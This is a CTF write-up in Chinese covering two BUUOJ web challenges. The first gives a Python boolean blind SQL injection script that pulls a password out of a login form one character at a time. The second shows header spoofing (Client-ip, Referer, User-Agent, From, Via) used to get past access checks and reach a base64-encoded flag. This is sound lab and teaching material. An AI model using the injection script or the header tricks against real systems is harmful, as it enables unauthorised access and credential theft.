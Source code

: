 ```
url = 'http://42c65e79-aa90-457c-a8fd-fef5d1c22b8d.node3.buuoj.cn/index.php'
ans = ''

#database()==p3rh4ps
#username==admin
#password==OhyOuFOuNdit

chrs = string.printable

for i in range(1, 40):
    for j in chrs:
        payload = "or (if(ascii(substr(password,%s,1))>%s,1,0))#" % (str(i), str(ord(j)))
        
        res1 = requests.post(url, data={'username': '\\', 'password': payload})
        res2 = requests.post(url, data={'username': '\\', 'password': payload.replace('>', '<')})

        if 'P3rh4ps' in res1.text:
            if 'P3rh4ps' in res2.text:
                ans += j
                print(ans)
                break
```
输入即可得到flag

----
## [BJDCTF 2nd]假猪套天下第一
打开后是一个登录页面，随便尝试了一下发现能正常登入，但是admin会提示。扫目录发现了`.DS_Store`文件，使用`ds_store_exp`发现了`L0g1n.php`，访问，提示：
```
Sorry, this site will be available after totally 99 years!
```
抓包，发现time，加几个零，提示：
```
Sorry, this site is only optimized for those who comes from localhost
```
改xff，提示:
```
Do u think that I dont know X-Forwarded-For?<br>Too young too simple sometimes naive
```
使用`Client-ip: 127.0.0.1`，显示：
```
Sorry, this site is only optimized for those who come from gem-love.com
```
改referer，显示：
```
Sorry, this site is only optimized for browsers that run on Commodo 64
```
修改UA为：
```
Contiki/1.0 (Commodore 64; http://dunkels.com/adam/contiki/)
```
显示：
```
Sorry, this site is only optimized for those whose email is root@gem-love.com
```
改From，显示：
```
Sorry, this site is only optimized for those who use the http proxy of y1ng.vip<br> if you dont have the proxy, pls contact us to buy, ￥100/Month
```
改Via，显示：
```
Sorry, even you are good at http header, you're still not my admin.<br> Althoungh u found me, u still dont know where is flag <!--ZmxhZ3s5ZmZmNGMzZS1iMmZkLTQzMmQtYWMyNi0yZjkzNDFkZGM1MzR9Cg==-->
```
base64解码，得到flag
